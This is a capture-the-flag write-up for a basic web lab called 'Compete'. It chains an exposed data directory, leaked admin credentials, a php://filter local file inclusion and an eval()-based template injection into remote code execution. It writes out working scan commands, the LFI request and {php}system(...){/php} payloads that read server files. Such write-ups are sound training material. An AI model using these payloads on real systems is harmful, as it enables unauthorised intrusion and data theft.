



# CTF Writeup: Compete — Web Exploitation Lab

**Platform:** Secdojo  
**Difficulty:** Basic  
**Category:** Web  
**Points:** 80  
**Flag:** `flag_7876c470_1c1c_44de_ba1d_5d08cd527983`

---

## Overview

**Compete** is a web exploitation lab that chains three vulnerabilities together to achieve Remote Code Execution (RCE):

1. **Information Leakage** — Exposed `/data` directory reveals a SQLite database with admin credentials
2. **Broken Access Control** — Admin credentials used to access the admin panel
3. **Code Injection** — A fake Smarty template engine with `eval()` allows RCE via `{php}...{/php}` tags

---

## Environment

- **Target IP:** `176.16.2.28:80`
- **Attack Machine:** Kali Linux (Ops Box) via SSH
- **Services:** Apache 2.4.52, OpenSSH 8.9p1

---

## Step 1 — Reconnaissance

### Nmap Scan

```bash
nmap -sV -sC -Pn 176.16.2.28
```

**Results:**

- Port 22: OpenSSH 8.9p1
- Port 80: Apache 2.4.52 — redirects to `/?file=quiz.php`

The `?file=` parameter in the URL immediately stood out as a potential Local File Inclusion (LFI) vector.

### Directory Enumeration

```bash
gobuster dir -u http://176.16.2.28 -w /usr/share/wordlists/dirb/common.txt -x php,html
```

**Results:**

```
/admin.php   (302) → /?file=login.php
/data        (301) → /data/
/index.php   (302) → /?file=quiz.php
```

---

## Step 2 — Information Leakage

Navigating to `http://176.16.2.28/data/` revealed a publicly accessible directory listing:

```
/data/auth.db       (8.0K)   ← SQLite database!
/data/quizzes.json  (8.9K)
/data/results.json  (2.1K)
```

Downloaded the files:

```bash
wget -P /tmp http://176.16.2.28/data/auth.db
```

Opened the SQLite database:

```bash
sqlite3 /tmp/auth.db ".dump"
```

**Output:**

```sql
CREATE TABLE admins (id INTEGER PRIMARY KEY, username TEXT, password TEXT);
INSERT INTO admins VALUES(1,'admin','2ab6bbcccaaa763002DHzpooksasakwa');
```

**Credentials found:**

- Username: `admin`
- Hardcoded Password: `2ab6bbcccaaa763002DHzpooksasakwa`

---

## Step 3 — Broken Access Control

Using the discovered credentials, logged into the admin panel at:

```
http://176.16.2.28/admin.php
```

Access was granted to the **Admin Control Panel** which allowed managing quizzes, questions, and user submissions.

---

## Step 4 — Source Code Review (LFI via PHP Filter)

Used the `?file=` PHP filter wrapper to read server-side source code:

```bash
wget -qO- "http://176.16.2.28/?file=php://filter/convert.base64-encode/resource=admin.php" | base64 -d
```

Inside `admin.php`, a critical vulnerability was found in the quiz creation logic:

```php
class SimpleSmarty {
    public function fetch($template_string) {
        $template = preg_replace_callback('/{php}(.*?){\/php}/s', function($matches) {
            ob_start();
            eval($matches[1]);  // ← Unsanitized eval()!
            $output = ob_get_clean();
            return $output;
        }, $template_string);
        return $template;
    }
}

$description = $_POST['quiz_description'] ?? '';
$compiled_description = $smarty->fetch('string:' . $description);
```

The quiz **description** field is passed through a fake Smarty template engine that `eval()`s any PHP code wrapped in `{php}...{/php}` tags — with **no sanitization**.

---

## Step 5 — Code Injection → RCE

In the Admin Panel under **Create New Quiz**, entered the following payload in the **Description** field:

```
{php}echo system('find /var/www -type f 2>/dev/null');{/php}
```

After creating the quiz, the server executed the command and returned file listings. The flag was located and read:

```
{php}echo system('cat /var/www/html/flag.txt');{/php}
```

**Flag:**



---

## Vulnerability Chain Summary

```
[Recon] ?file= parameter + /data/ exposed
        ↓
[Info Leakage] auth.db → admin credentials
        ↓
[Broken Access Control] Login to /admin.php
        ↓
[Code Injection] {php}system('cmd');{/php} in quiz description → RCE
        ↓
[Flag]  flag_7876c470_1c1c_44de_ba1d_5d08cd527983
```

---

## Tools Used

- `nmap` — port scanning and service detection
- `gobuster` — directory enumeration
- `wget` — HTTP requests and file downloads
- `sqlite3` — reading the auth database
- Browser — navigating the web app and admin panel

---

## Lessons Learned

- Always check for exposed directories and sensitive files (`/data`, `/backup`, etc.)
- `eval()` on user-controlled input is extremely dangerous
- Template engines that process user input without sandboxing enable RCE
- Credentials stored in plaintext in accessible files are a critical risk